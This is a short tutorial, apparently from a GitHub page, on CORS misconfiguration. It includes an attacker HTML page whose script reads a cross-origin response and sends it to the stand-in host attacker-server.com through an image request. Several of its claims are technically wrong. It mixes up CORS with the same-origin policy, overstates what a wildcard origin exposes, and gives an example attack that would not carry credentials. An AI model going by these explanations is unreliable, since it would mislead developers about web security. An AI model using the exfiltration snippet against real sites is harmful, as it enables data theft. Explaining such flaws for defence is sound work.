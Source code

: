# CORS Misconfiguration Example

Cross-Origin Resource Sharing (CORS) is a security feature implemented in web browsers to prevent web pages from making requests to a different domain than the one that served the web page. CORS is used to prevent attackers from executing malicious scripts on a website by intercepting the requests from the user's browser and forwarding them to a different domain. However, a misconfigured CORS policy can lead to security vulnerabilities.

## Vulnerable Server-Side Configuration

A vulnerable server-side configuration is when the Access-Control-Allow-Origin header is set to "*" in the response headers. This allows any website to access the resources of the server, including sensitive data. For example:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8

```

## Vulnerable Client-Side Configuration

A vulnerable client-side configuration is when the XMLHttpRequest (XHR) request is made with the `withCredentials` attribute set to `true`. This allows the request to include cookies, HTTP authentication, and client-side SSL certificates. Attackers can exploit this vulnerability to steal sensitive data from the user's browser. For example:

```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open('GET', '<https://example.com/api/data>', true);
xhr.send();

```

## Exploiting a Misconfigured CORS Policy

Let's assume that the server-side configuration is vulnerable and the Access-Control-Allow-Origin header is set to "*". An attacker can exploit this vulnerability by creating a malicious website that sends a request to the server and steal sensitive data from the user's browser. For example:

```
<html>
  <head>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('GET', '<https://vulnerable-server.com/api/data>', true);
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          document.write(xhr.responseText);
          var data = xhr.responseText;
          // send data to attacker's server
          var img = new Image();
          img.src = '<https://attacker-server.com/steal-data.php?data=>' + encodeURIComponent(data);
        }
      };
      xhr.send();
    </script>
  </head>
  <body>
    <h1>Welcome to my website</h1>
    <p>This is a phishing website that steals your data</p>
  </body>
</html>

```

## Preventing CORS Misconfiguration

To prevent CORS misconfiguration, server-side administrators must set the Access-Control-Allow-Origin header to only allow trusted domains to access the resources of the server. Additionally, client-side developers must ensure that the XMLHttpRequest (XHR) requests are not made with the `withCredentials` attribute set to `true`. Finally, web application developers must always validate user input and sanitize it before processing it.

## Conclusion

CORS is a security feature implemented in web browsers to prevent web pages from making requests to a different domain than the one that served the web page. However, a misconfigured CORS policy can lead to security vulnerabilities. Server-side administrators and client-side developers must take necessary measures to prevent CORS misconfiguration and ensure the security of their web applications.